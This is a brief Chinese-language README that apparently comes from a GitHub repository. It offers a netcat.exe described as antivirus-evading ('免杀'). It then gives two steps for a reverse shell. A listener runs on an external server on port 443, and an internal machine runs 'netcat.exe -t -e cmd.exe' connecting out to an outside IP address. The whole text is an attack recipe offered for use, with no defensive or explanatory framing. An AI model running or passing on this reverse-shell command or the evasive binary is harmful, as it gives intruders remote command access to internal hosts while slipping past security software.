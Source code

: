 # netcat
分享一个免杀的netcat.exe
# 反弹shell步骤:
第1步: 外网服务器执行: netcat -l -p 443

第2步: 内网服务器执行: netcat.exe -t -e cmd.exe 104.62.108.76 443
